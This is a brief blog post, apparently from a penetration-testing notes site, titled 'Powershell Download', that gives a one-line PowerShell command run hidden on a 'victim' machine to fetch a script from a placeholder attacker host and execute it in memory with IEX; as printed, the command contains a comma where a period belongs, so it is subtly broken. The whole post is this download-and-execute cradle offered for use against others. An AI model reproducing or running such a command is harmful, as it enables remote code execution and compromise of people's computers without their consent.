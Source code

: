 ```yaml
---
layout: post
title: "Powershell Download"
date: 2017-06-23
---
```

<p>
Host file on a webpage. Use this command to download file to victim
<p>
<code>powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient),downloadstring('http://&lt;ip&gt;:&lt;port&gt;/&lt;file&gt;'))"</code></p>
</p>

